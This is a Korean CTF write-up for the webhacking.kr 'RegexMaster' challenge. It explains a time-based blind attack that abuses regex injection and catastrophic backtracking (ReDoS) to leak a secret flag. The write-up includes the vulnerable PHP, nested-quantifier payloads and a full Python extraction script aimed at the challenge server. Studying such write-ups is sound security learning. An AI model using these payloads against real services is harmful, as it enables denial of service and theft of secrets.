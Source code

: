 ```yaml
---
title: ["[Webhacking.kr] RegexMaster (xss - 300)"]
date: 2025-01-10 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, xss]
---
```


```php
<?php
  include "./config.php";
  $result = preg_match("/{$_GET['pattern']}/", $flag);
  //echo $result; // sorry ;)
  highlight_file(__FILE__);
?>
```

정규표현식을 이용해 flag를 추정하는 문제이다.  
별다른 출력값이 없어서 딜레이를 이용한 time based로 접근하면 될 것 같다.  

관련해서 구글링해보니, ReDoS(Regular Expression Denial of Service)와 Catastrophic Bactracking과 관련된 개념이 나왔다.  

먼저 ReDoS는 정규표현식의 백트래킹으로 인한 성능 저하를 이용한 공격으로, 특정 패턴에서 매칭 시도가 기하급수적으로 증가하는 현상을 이용해 서버에 딜레이를 일으키는 DoS 공격의 일종이었다.  
아마 문제 서버가 한동안 내려간 이유가 누군가 이 공격을 하지 않았을까 추정해본다.  

문제를 풀기 위해선 Catastrophic Backtracking 개념을 이용해야되는데,  
중첩된 수량자(예: `(a*)*`), 겹치는 패턴을 이용해서 매칭의 시간 복잡도를 지수적으로 증가시켜 딜레이를 발생시키는 개념이다.  

로컬에 간단히 서버를 구축하고 테스트 해본 결과,  
`(((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)` 이정도의 백트래킹 구문을 사용해야 2초 정도의 딜레이가 발생함을 알 수 있었다.  

flag가 `FLAG{}` 형태임을 이용해서 페이로드를 구성해 보면
```
# 1. 백트래킹을 일으키는 패턴
((((((((((.*)*)*)*)*)*)*)*)*)*)

# 2. 길이 체크: FLAG{ 뒤로 남은 길이는 25
^FLAG{((((((((((.*)*)*)*)*)*)*)*)*)*).{i}$

# 3. 문자 체크
^FLAG{test_char((((((((((.*)*)*)*)*)*)*)*)*)*).{remaining_len}$
```

최종 페이로드는 다음과 같다.
flag 중간에 정규표현식에서 의미를 가지는 특수문자가 포함되어, 백슬래시로 이스케이프 처리 해주는게 관건이었다.  
```python
import requests
import time
import string

url = 'http://218.145.226.8:20001'
pattern = '(((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*).{'
flag_len = 0
flag = '^FLAG{'


for i in range(1,50):
    start = time.time()
    response = requests.get(f'{url}?pattern={flag}{pattern}{i}'+'}$')
    end = time.time()

    if end-start < 1:
        flag_len = i - 1
        print(flag_len)
        break

for i in range(flag_len-1):    
    for c in string.punctuation + string.ascii_letters + string.digits:
        if c in string.punctuation:
            c = '\\' + c
        start = time.time()
        response = requests.get(f'{url}?pattern={flag}{c}{pattern}{flag_len-i-1}'+'}$')
        end = time.time()

        if end-start > 2:
            flag += c
            print(flag)
            break
    else:
        print("nono")

flag += '}'
flag = flag.replace('^', '')
flag = flag.replace('\\', '')

print(flag)
```